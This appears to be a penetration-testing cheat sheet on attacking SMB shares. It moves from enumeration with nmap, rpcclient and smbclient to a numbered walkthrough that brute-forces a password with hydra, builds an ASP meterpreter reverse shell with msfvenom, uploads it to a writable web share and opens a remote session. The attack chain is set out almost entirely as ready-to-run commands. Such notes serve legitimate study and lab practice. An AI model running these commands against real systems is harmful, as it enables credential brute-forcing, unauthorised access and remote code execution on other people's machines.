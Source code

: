 # SMB
- The protocol used for sharing between devices in MS and Linux
- Also known as CIFS
- SAMBA is linux version
- TCP port 139 is SMB over NETBIOS (older windows)
- TCP 445 is SMB over IP (newer)

## Enumeration Tools
- Nmap NSE
- enum4linux
- smbclient
- rpcclient

## Common Shares
C$ - C drive of remote host
Admin$ - windows install dir
IPC$ - inter-process communication

## Key points
- can you access as guest
- can you brute force
- can you read / write
- if you can write to a share can you access it later for a shell?

## SMB - Nmap
`nmap 192.168.1.1 -p 445 -sV -sC --script=smb-enum-shares

Note you can use * to select all matching scripts

`nmap 192.168.1.1 -p 445 -sV -sC --script=smb-enum*`

## SMB - RPCClient
We can use this to enumerate the server, users and domain users on the system.

`rpcclient -U "" 192.168.1.1 --option='client min protocol=NT1'`

## SMB - SMBclient
List all shares:
`smbclient -L \\192.168.1.1 --option='client min protocol=NT1'`

Connect to SMB  share
`smbclient \\\\192.168.1.1\\SHARENAME`
 
 ## Password Cracking
 If we can enumerate a user we may be able to crack a password.

 `hydra -l IEUSER -P ~/Desktop/passwords.lst 192.168.1.1 smb`

 Once the password is cracked specify the user withh smbclient and log in.                                     
 `smbclient \\\\192.168.1.1\\inetpub --option='client min protocol=NT1' -U IEUSER`

 # Enumeration Demo

 1. Use Nmap to scan and enumerate smb
 `nmap 192.168.1.1 --script=smb-enum* -p 445 -vvv`

 2. Attempt to log in
 Using rpcclient:
 ```sh
 rpcclient -U "" 192.168.1.1
 rpcclient $> ?
 ```

 Using smbclient
 ```sh
 smbclient \\\\192.168.1.1\\SHARENAME
 ```

 3. Discover Users
 It is possible to guess using common numbers

```sh
rpcclient $> queryuser 500 (admin)
rpcclient $> queryuser 1000 (admin)
```

4. Once you have found a user, we will use hydra to brute force the password.
`hydra -l IEUSER -P passwords.lst 192.168.1.1 smb`

5. Now that we have a username and password we can run nmap again using those credentials.
`nmap --script smb-enum* --script-args smbusername=IEUSER, smbpass=Passw0rd! -p445 192.168.1.1`

6. This will give us signigicantly more information:
- logged in sessions
- other users
- directories

7. We'll notice this user has read / write access to the webserver "inetpub". We'll want to access this directly.
```smb
smbclient \\\\192.168.1.1\\inetpub -U IEUSER
smb: \> cd
```

8. Create .asp reverse shell using MSFVenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f asp > shell.asp
msfconsole -x "use /exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.1; set lport 4444; run -j"
```
`-j` - Background process


9. Moving back to our smb session:
```sh
smb:  put shell.asp shell.asp
```

10. On the exploited webserver go to the uploaded shell.asp file
A meterpreter sessions will be opened. 
```sh
msf6 exploit(multi/handler) > session 1
meterpreter > shell
```

